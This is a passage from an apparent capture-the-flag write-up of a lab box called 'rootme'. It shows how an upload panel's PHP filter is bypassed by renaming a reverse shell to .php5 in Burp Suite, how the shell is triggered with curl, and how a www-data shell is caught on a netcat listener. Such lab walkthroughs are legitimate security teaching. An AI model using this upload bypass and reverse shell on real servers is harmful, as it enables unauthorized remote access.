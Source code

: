 ```bash
===============================================================
```

Bingo, we have found two folders that look interesting: `/panel` & `/uploads`, let's check them.

Once inside `/panel` we can see a panel for file uploading, this is really interesting, let's try uploading a **PHP reverse shell**.

![Desktop View](RootmeMainPage2.png)

I used the monkey pentester `php-reverse-shell`, if you are using **Kali** or **Parrot** you can make a copy in your current directory with the following command:

```bash
❯ cp /usr/share/webshells/laudanum/php/php-reverse-shell.php .
```

Just modify your **IP Address** & **Port** in the code and it's ready to use.

I tried to upload the PHP file but we get a error in Portuguese (idk), that tell us that the server doesn't allow PHP files, so let's try to bypass the checks that the server is doing to detect that is a PHP file.

![Desktop View](RootmeUploadDenied.png)

We will use `BurpSuite` for this task, i enabled `FoxyProxy` and started intercepting request.

Once with the request intercepted, i started changing the `Content-Type` but just that didn't worked, so i changed the file extension to other valid PHP extensions (`.php4, .php5, etc)` and that worked perfectly.

![Desktop View](RootmeBurp.png)

Once uploaded we can suppose that it is saved inside the `/uploads` directory but if we check the response in `burpsuite` it shows that the file is being saved at `/uploads/php-reverse-shell.php5`, this way we can see that is being saved with the same name.

## Gaining a Shell

Once with the reverse shell uploaded and knowing it's location, let's get the shell.

Let's set a listener with `netcat` and then we will request the reverse shell that we just upload.

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
```

Then i requested the reverse shell.

```bash
❯ curl http://10.10.245.18/uploads/php-reverse-shell.php5
```

We then get the shell.

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
connect to [10.11.116.52] from (UNKNOWN) [10.10.245.18] 47940
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 04:39:30 up  1:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
